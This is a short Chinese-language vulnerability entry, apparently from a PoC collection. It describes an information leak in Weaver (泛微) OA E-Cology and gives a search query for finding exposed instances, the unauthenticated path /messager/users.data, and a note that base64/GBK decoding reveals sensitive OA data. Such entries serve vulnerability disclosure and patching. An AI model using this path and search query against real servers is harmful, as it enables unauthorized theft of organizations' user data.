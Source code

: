 # 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

<a-checkbox checked>泛微OA E-Cology</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="泛微-协同商务系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184604856.png)

验证POC

```php
/messager/users.data
```

![img](../../../.vuepress/public/img/1646043440450-c69abe9a-4e26-4d92-b059-4e1e74139dc8.png)



base64 GBK解码即可获取OA中的敏感数据